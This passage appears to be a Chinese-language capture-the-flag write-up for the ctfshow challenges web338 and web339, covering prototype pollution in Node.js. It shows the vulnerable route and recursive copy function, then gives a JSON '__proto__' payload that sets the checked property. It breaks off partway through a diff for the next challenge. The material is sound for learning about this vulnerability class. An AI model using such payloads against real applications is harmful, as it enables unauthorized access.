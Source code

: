 ### web338
```node
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
  
  
});
```

```node
//递归拷贝对象的属性
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

关键点在污染secret的值,不会...

---
*payload*
```json
{"__proto__":{"ctfshow":"36dboy"}}
```

也就是执行了 `user.__proto__={"ctfshow":"36dbooy"}` ,污染了`Object`的ctfshow为"36dboy"
 
### web339

```diff
--- C:\Users\20925\Downloads\web338\routes\login.js
+++ C:\Users\20925\Downloads\web339\routes\login.js
@@ -2,6 +2,13 @@
 var router = express.Router();
 var utils = require('../utils/common');
 
+function User(){
+  this.username='';
+  this.password='';
+}
+function normalUser(){
+  this.user
+}
 
 
 /* GET home page.  */
@@ -12,7 +19,7 @@
   var sess = req.session;
   let user = {};
   utils.copy(user,req.body);
-  if(secert.ctfshow==='36dboy'){
```